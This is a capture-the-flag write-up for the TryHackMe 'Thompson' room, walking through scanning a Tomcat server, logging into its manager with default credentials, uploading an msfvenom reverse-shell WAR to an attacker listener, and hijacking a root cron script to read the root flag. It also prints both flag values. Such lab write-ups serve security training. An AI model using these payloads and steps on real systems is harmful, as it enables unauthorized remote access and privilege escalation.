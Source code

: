 ## Thompson - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/bsidesgtthompson)

**IP: 10.10.37.157**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Gobuster, msfvenom

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap scan.
  ```
  nmap -sC -sV -T5 -p- 10.10.37.157 
  22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
  8080/tcp open  http    Apache Tomcat 8.5.5
  ```
  
- Visited `http://10.10.37.157:8080` and it's Apache Tomcat page, put it in Gobuster.
  ```
  gobuster dir -u http://10.10.37.157:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt ->
  /docs                 (Status: 302) [Size: 0] [--> /docs/]
  /examples             (Status: 302) [Size: 0] [--> /examples/]
  /manager              (Status: 302) [Size: 0] [--> /manager/]
  ```
  
- Then, I visited `http://10.10.37.157:8080/manager` and got this error:
  ```
  You are not authorized to view this page. If you have not changed any configuration files, please examine the file conf/tomcat-users.xml in your installation. That file must contain the credentials to let you use this webapp.

  For example, to add the manager-gui role to a user named tomcat with a password of s3cret, add the following to the config file listed above.
  
  <role rolename="manager-gui"/>
  <user username="tomcat" password="s3cret" roles="manager-gui"/>
  ```

- Awesome, I have credentials now, let's log in to manager GUI with them. After going through manager GUI, I found an option to upload `.war` files. Awesome, upload a shell!

---

## ⚙️ Shell Access

- Created a shell with `msfvenom`, started a listener and then visited the page `http://10.10.37.157:8080/shell/` in order to get interractive shell. I used Java shell here but you can use any shell.
  ```
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=[YOUR-THM-IP] LPORT=4444 -f war -o shell.war
  nc -lvnp 4444

  upload the shell through manager GUI and visit the page
  ```
  
- Perfect, I got a shell, let's convert it to `putty`
  ```
  python -c "import pty; pty.spawn('/bin/bash')"
  ```
  
- I also experimented with GhostCat exploit but it was unsuccessfull, app is vulnerable to LFI but couldn't make it work tho...

---

## 🧍 User Privilege Escalation

- Now, since I got a shell, finding user flag is not a problem
  ```
  find / -name user.txt
  /home/jack/user.txt
  
  cat /home/jack/user.txt
  39400c90bc683a41a8935e4719f181bf
  ```
  
- Perfect, moving to escalation.

---

## 👑 Root Privilege Escalation

- After enumerating, I decided to go with `cronjobs` since it was my best option. Due to configuration, `cronjobs` prints content of `test.txt` every minute
  ```
  cat /etc/crontab
  cd /home/jack && bash id.sh
  
  cd /home/jack
  cat test.txt
  uid=0(root) gid=0(root) groups=0(root)
  
  cat id.sh 
  #!/bin/bash
  id > test.txt
  ```
  
- OK, now change `id.sh` to print `root.txt` instead of ID.
  ```
  echo '#!/bin/bash' > id.sh
  echo 'cat /root/root.txt > test.txt' >> id.sh 
  ```
  
- It worked, you still have to wait a bit for `cronjobs` to resolve before getting the flag.
  ```
  cat test.txt
  d89d5391984c0450a95497153ae7ca3a
  ```

---

## 🏁 Flags

- **User Flag**: `39400c90bc683a41a8935e4719f181bf`
- **Root Flag**: `d89d5391984c0450a95497153ae7ca3a`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Exploiting with GhostCat which I didn't use to get the flags...`

- What did I learn?
  `Persistence is the key!`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
